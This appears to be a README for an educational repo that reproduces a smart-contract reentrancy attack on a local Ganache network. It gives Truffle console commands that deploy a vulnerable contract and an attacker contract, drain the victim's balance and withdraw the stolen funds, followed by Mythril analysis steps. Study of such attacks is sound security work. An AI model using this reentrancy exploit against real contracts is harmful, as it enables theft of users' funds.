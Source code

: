 How to use this repo:

First prepare the environment

1. Install Ganache or other alternative simulator to deploy a local private ETH network
2. Install Truffle Environment

Then we can start to reproduce the reentrancy attack

1. deploy the two contract with command line:
    rm -rf build/
    truffle compile
    truffle migrate --reset

2. enter truffle console:
    truffle console --network development

3. in the truffle console, execute attack:
Suppose there are ten accounts with index from 0-9 and all have 100 ether at first.
    // deploy
    let vulnerable = await VulnerableContractReentrancy.deployed()
    let attacker = await AttackerContractReentrancy.deployed()

    // account 0 transfer 50 ether to Victim Contract
    await vulnerable.depositFunds({from: accounts[0], value: web3.utils.toWei("50", "ether")});

    // check Victim Contract balance
    await web3.eth.getBalance(vulnerable.address);

    // account 1 call attacker contract to steal all balance from victim contract
    await attacker.attack({from: accounts[1], value: web3.utils.toWei("1", "ether")});

    // account withdraw all stealed balance from attacker contract
    await attacker.withdrawStolenFunds({from: accounts[1]});



How to use mythril to analyze the contract:

1. Install mythril
    pip3 install mythril
2. Analyze vulnerable contract
    myth analyze contracts/VulnerableContractReentrancy.sol